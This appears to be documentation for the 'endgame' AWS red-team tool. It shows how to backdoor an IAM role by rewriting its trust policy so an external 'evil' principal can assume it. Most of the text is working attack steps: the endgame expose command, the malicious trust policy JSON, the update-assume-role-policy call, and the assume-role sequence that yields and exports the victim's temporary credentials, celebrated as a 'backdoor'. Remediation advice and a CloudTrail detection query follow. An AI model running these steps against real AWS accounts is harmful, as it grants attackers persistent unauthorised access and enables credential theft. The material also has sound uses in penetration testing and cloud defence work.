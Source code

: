 # IAM Roles (via AssumeRole)

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service iam --name test-resource-exposure
```

* Alternatively, to expose the resource using the AWS CLI:

Create a file titled `Evil-Trust-Policy.json` with the following contents:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::999988887777:user/evil"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```


Apply the evil Assume Role Policy by running the following from the victim account:

```bash
aws iam update-assume-role-policy --role-name test-resource-exposure --policy-document file://Evil-Trust-Policy.json
```

* To view the contents of the Assume Role Policy that grants access to the evil user, run the following:

```bash
aws iam get-role --role-name test-resource-exposure
```

* Observe that the output of the overly permissive AssumeRolePolicy match the example shown below.

## Example

Observe that the content of the `AssumeRolePolicyDocument` key allows `sts:AssumeRole` access from the evil principal (`arn:aws:iam::999988887777:user/evil`)

```json
{
    "Role": {
        "Path": "/",
        "RoleName": "test-resource-exposure",
        "RoleId": "",
        "Arn": "arn:aws:iam::111122223333:role/test-resource-exposure",
        "CreateDate": "2021-02-13T19:21:51Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "",
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "ec2.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                },
                {
                    "Sid": "AllowCurrentAccount",
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::111122223333:root"
                    },
                    "Action": "sts:AssumeRole"
                },
                {
                    "Sid": "Endgame",
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::999988887777:user/evil"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "Tags": [
            {
                "Key": "Owner",
                "Value": "yourmom"
            }
        ],
        "RoleLastUsed": {}
    }
}
```

## Exploitation

* Set your AWS Access keys to the Evil Principal (`arn:aws:iam::999988887777:user/evil`) credentials

* Verify that you can run `sts:AssumeRole` to the victim account

```bash
aws sts assume-role --profile evil --role-arn arn:aws:iam::111122223333:role/test-resource-exposure --role-session-name HotDogsAreSandwiches
```

* The output will contain `AccessKeyId`, `SecretAccessKey`, and `SessionToken` below. Note the values.

```
{
    "Credentials": {
        "AccessKeyId": "",
        "SecretAccessKey": "",
        "SessionToken": "",
        "Expiration": "2021-02-13T21:24:46Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "roleid:HotDogsAreSandwiches",
        "Arn": "arn:aws:sts::111122223333:assumed-role/test-resource-exposure/HotDogsAreSandwiches"
    }
}
```

* Set those values to your AWS credentials environment variables

```bash
export AWS_ACCESS_KEY_ID=outputfromAccessKeyId
export AWS_SECRET_ACCESS_KEY=outputfromSecretAccessKey
export AWS_SESSION_TOKEN=outputfromSessionToken
```

* To validate that you are leveraging the victim's credentials, run `aws sts get-caller-identity` (this API Call is the equivalent of `whoami`)

```bash
aws sts get-caller-identity
```

* Observe that the output of the call contains the Victim Account ID under `Account`, as well as an ARN that indicates you have assumed the victim role.

```
{
    "UserId": "AROAblah:HotDogsAreSandwiches",
    "Account": "111122223333",
    "Arn": "arn:aws:sts::111122223333:assumed-role/test-resource-exposure/HotDogsAreSandwiches"
}
```

* Congratulations! You've created a backdoor role in the victim's account 😈


## Remediation

* **Trusted Accounts Only**: Ensure that IAM roles can only be assumed by trusted accounts and the trusted principals within those accounts.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Assume IAM Roles. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your IAM Roles**: Tightly control access to the following IAM actions:
  - [iam:UpdateAssumeRolePolicy](https://docs.aws.amazon.com/IAM/latest/APIReference/API_UpdateAssumeRolePolicy.html): _Grants permission to update the policy that grants an IAM entity permission to assume a role_
  - [iam:GetRole](https://docs.aws.amazon.com/IAM/latest/APIReference/API_GetRole.html): _Grants permission to retrieve information about the specified role, including the role's path, GUID, ARN, and the role's trust policy_
  - [iam:ListRoles](https://docs.aws.amazon.com/IAM/latest/APIReference/API_ListRoles.html): _Grants permission to list the IAM roles that have the specified path prefix_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='iam.amazonaws.com' and eventName='UpdateAssumeRolePolicy'
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [update-assume-role-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/update-assume-role-policy.html)
* [Learn more about IAM cross-account trust](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_common-scenarios_aws-accounts.html)